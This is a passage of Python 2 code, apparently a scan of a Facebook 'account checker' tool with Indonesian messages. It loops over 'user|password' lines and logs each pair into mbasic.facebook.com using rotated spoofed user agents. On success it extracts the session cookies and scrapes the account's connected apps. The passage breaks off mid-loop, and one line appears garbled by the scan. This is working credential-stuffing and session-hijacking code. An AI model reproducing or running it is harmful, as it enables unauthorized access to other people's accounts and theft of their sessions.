 	for memek in buka_baju:
		kontol = memek.replace("\n","")
		titid  = kontol.split("|")
		print("\n [+] cek : %s%s%s"%(K,kontol.replace("  * --> ",""),N))
		try:
			check_in(titid[0].replace("  * --> ",""), titid[1])
		except requests.exceptions.ConnectionError:
			pass
	print("\n [!] cek akun sudah selesai...")
	raw_input(" [*] tekan enter untuk kembali ke menu ")
	time.sleep(1)
	menu()
	
def check_in(user, pasw):
	mb = ("https://mbasic.facebook.com")
	ua = random.choice([
		'Mozilla/5.0 (Linux; U; Android 4.1.2; de-de; GT-I8190 Build/JZO54K) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30',
		'Mozilla/5.0 (Linux; Android 5.1; A1601 Build/LMY47I) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.98 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 6.0; MYA-L22 Build/HUAWEIMYA-L22) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.84 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 7.0; SAMSUNG SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/7.4 Chrome/59.0.3071.125 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 7.1; vivo 1716 Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.98 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G950U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.2 Chrome/71.0.3578.99 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 9; SAMSUNG SM-G960U) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/10.1 Chrome/71.0.3578.99 Mobile Safari/537.36',
		'Mozilla/5.0 (Linux; Android 4.1.2; Nokia_X Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Mobile Safari/537.36 OPR/18.0.1290.68007'
	])
	ses = requests.Session()
	#-> pemisah
	ses.headers.update({"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": mb,"content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": mb+"/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
	data = {}
	ged = parser(ses.get(mb+"/login/?next&ref=dbl&fl&refid=8", headers={"user-agent":ua}).text, "html.parser")
	fm = ged.find("form",{"method":"post"})
	list = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login","bi_xrwh"]
	for i in fm.find_all("raw_input"):
		if i.get("name") in list:
			data.update({i.get("name"):i.get("value")})
		else:
			continue
	data.update({"email":user,"pass":pasw})
	run = parser(ses.post(mb+fm.get("action"), data=data, allow_redirects=True).text, "html.parser")
	if "c_user" in ses.cookies:
		kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
		run = parser(ses.get("https://free.facebook.com/settings/apps/tabbed/", cookies={"cookie":kuki}).text, "html.parser")
		xe = [re.findall("\<span.*?href=\".*?\">(.*?)<\/a><\/span>.*?\<div class=\".*?\">(.*?)<\/div>", str(td)) for td in run.find_all("td", {"aria-hidden":"false"})][2:]
		print(" [+] aplikasi terhubung ada : "+str(len(xe)))
		num = 0
		for _ in xe:
